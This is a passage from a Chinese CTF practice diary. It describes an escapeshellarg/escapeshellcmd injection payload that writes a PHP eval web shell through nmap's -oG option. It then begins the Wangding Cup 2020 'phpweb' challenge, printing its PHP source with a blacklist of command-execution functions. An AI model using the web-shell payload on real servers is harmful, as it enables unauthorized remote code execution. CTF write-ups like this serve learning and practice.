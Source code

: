 看wp讲可以利用[PHP escapeshellarg()+escapeshellcmd() 之殇 (seebug.org)](https://paper.seebug.org/164/)

![](https://i.loli.net/2021/07/16/ejALvfW6SUzXb9s.png)考点和之前做的Online tool一样，就是过滤了php，换成短标签和phtml就可以写shell啦
payload：`127.0.0.1' <?= @eval($_POST["hhh"]);?> -oG 2333.phtml '`![](C:\Users\11634\AppData\Roaming\Typora\typora-user-images\image-20210717000531752.png)



## 2021.7.18

昨天培训回来就十点半了，没刷题跑去打游戏了。。今天睡一觉 ，做了一下作业又大半天诶呀呀

### [网鼎杯 2020 朱雀组]phpweb——反序列化

进去就是这玩意![](https://i.loli.net/2021/07/18/8BOSreLj6asK2Dv.png)

不懂是什么梗，但好像会不断刷新，似乎是调用了data()来显示时间

抓个包可以看到post传参：func为函数名，p为函数的参数值：![](https://i.loli.net/2021/07/18/4lkW6mDvCHutg1L.png)

经过测试知道用的是call_user_func()，而传入phpinfo回显Hacker，看来是存在过滤，过滤了很多命令执行参数，可以用一下hightlight_file或者file_get_content来获取index.php源码![](https://i.loli.net/2021/07/18/caOHrZtiB82dlPj.png)

php部分：

```php
    <?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {	# 判断call_user_func的返回值是否为字符串类型，是则输出，否则输出空
            return $result;
        } else {return "";}
    }
    class Test {	# 就是图中的测试样例
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);	# 将传入的func值转为小写
        if (!in_array($func,$disable_fun)) {	# 函数名不在黑名单才可返回结果
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```
